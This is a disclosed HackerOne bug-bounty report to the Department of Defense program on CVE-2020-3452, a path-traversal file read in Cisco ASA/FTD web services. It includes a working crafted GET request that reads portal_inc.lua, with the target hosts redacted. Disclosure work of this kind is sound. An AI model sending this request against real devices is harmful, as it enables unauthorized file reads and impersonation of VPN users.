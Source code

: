 # Unathenticated file read (CVE-2020-3452) 

## Report Details
- **Report ID**: 2233418
- **URL**: https://hackerone.com/reports/2233418
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-10-30T19:39:09.585Z
- **Disclosed**: 2023-11-17T18:07:57.503Z

## Reporter
- **Username**: r00tdaddy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
A vulnerability in the web services interface of Cisco Adaptive Security Appliance (ASA) Software and Cisco Firepower Threat Defense (FTD) Software could allow an unauthenticated, remote attacker to conduct directory traversal attacks and read sensitive files on a targeted system. The vulnerability is due to a lack of proper input validation of URLs in HTTP requests processed by an affected device.


## References
https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-ro-path-KJuQhB86
https://www.rapid7.com/blog/post/2020/07/23/cve-2020-3452-cisco-asa-firepower-read-only-path-traversal-vulnerability-what-you-need-to-know/

## Impact

Impact
An attacker could exploit this vulnerability by sending a crafted HTTP request containing directory traversal character sequences to an affected device. A successful exploit could allow the attacker to view arbitrary files within the web services file system on the targeted device. As an example, this could allow an attacker to impersonate another VPN user and establish a Clientless SSL VPN or AnyConnect VPN session to the device as that user. The web services file system is enabled when the affected device is configured with either WebVPN or AnyConnect features. This vulnerability cannot be used to obtain access to ASA or FTD system files or underlying operating system (OS) files.

## System Host(s)
███

## Affected Product(s) and Version(s)


## CVE Numbers
CVE-2020-3452

## Steps to Reproduce
1.) Perform the following GET request:
GET /+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua HTTP/1.1
Host: ██████
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/34.0.1847.137 Safari/4E423F
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip, deflate, br

2.) The response will contain contents of portal_inc.lua

## Suggested Mitigation/Remediation Actions
Cisco has released software updates that address this vulnerability.



## Attachments
No attachments
